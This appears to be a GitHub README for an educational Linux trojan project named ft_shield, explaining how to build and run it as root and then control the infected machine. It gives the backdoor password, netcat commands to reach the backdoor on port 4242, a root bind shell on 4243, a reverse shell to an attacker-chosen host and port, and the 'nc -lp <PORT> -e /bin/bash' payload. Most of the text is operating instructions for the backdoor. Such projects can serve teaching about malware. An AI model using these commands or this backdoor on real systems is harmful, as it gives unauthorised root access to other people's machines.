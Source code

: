 # Summary

The purpose of this project is to create a basic trojan on Linux

It has been coded to run on Debian Linux : 

```bash
# uname -a
Linux parrot 6.0.0-12parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.12-1parrot1 (2023-01-12) x86_64 GNU/Linux
```

[Download distribution](https://www.parrotsec.org/download/)

# Run project

After importing the project into the VM, run the following commands:

```bash
make && sudo ./ft_shield
```

Use the script `./test/z_tester.sh` to see the information showing that the trojan is running in the background

![POC_TESTER](img/poc_infected_host.png)

From your host machine, connect to the backdoor with the password `toortoor` and type the command `help`

```bash
nc <IP> 4242
```

### help & exit
![POC_HELP_EXIT](img/poc_help_exit.png)

### shell
Use `shell` command, then a bash shell is then opened on the infected machine on port `4243`.
Connect directly to it in order to have access to a root shell on the machine

```bash
nc <IP> 4243
```
![POC_SHELL](img/poc_shell.png)

### rshell
Listen on a defined port on the host machine.
Use `rshell` command and a reverse shell will initiate a reverse connection on the host

```bash
# type the command below on host machine, in a dedicated terminal
nc -l 4444

# type the command below in the backdoor intermediate shell
rshell <RHOST> <RPORT>
```

![POC_RSHELL](img/poc_rshell.png)

# Useful information

The project is for educational purposes and is not optimized to run on any type of Linux machine

The payload used to connect remotely with the `shell` command is a `netcat` with the `-e` flag which can be disabled natively in some distributions for apparent security reasons.
 
```bash
nc -lp <PORT> -e /bin/bash
```

For the trojan to work properly, this feature of the `netcat` command must be enabled